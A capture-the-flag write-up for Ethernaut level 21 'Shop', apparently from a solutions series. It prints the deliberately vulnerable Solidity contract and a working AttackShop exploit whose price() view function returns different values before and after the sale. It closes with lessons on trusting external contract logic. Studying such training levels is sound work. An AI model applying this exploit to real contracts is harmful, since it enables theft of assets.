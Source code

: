 ```yaml
---
description: view function
---
```


# 21 - Shop

Ethernaut Level21: [Shop](https://ethernaut.openzeppelin.com/level/0xCb1c7A4Dee224bac0B47d0bE7bb334bac235F842)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

### Goal of this level

* make `price` cheaper than original price

## Solution

```solidity
contract AttackShop {
    Shop public shopContract;

    function attack(Shop _instance) public {
        shopContract = _instance;
        shopContract.buy();
    }

    function price() external view returns (uint256) {
        return !shopContract.isSold() ? shopContract.price() : shopContract.price() - 100;
    }
}
```

price returns `100` when `isSold` is `false`, and 0 when it's `true`.

Done! 😎

## Key Takeways

* `view` keyword merely means the function does not change state
* this doesn't mean it always returns the same value
* it's unsafe to change the state based on external and untrusted contracts logic
